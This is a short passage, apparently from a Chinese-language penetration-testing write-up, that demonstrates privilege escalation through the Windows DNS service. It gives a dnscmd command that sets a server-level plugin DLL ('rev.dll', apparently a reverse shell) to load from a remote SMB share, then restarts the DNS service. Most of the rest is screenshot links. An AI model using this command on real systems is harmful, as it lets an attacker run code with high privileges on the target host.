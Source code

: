 [![](assets/1700100091-84154f1956f52c8b355560539aebcee5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114175257-968b7b12-82d3-1.png)

cmd.exe /c dnscmd localhost /config /serverlevelplugindll \\10.10.16.3\\s\\rev.dll  
重新启动dns服务  
接着进行启动dns服务。

[![](assets/1700100091-9697d1564adbec6bc444204a5928363c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114175305-9b7d17a2-82d3-1.png)

[![](assets/1700100091-f980788a8b9c53b3bb49910a5f4f1d4a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114175314-a0d2d89a-82d3-1.png)
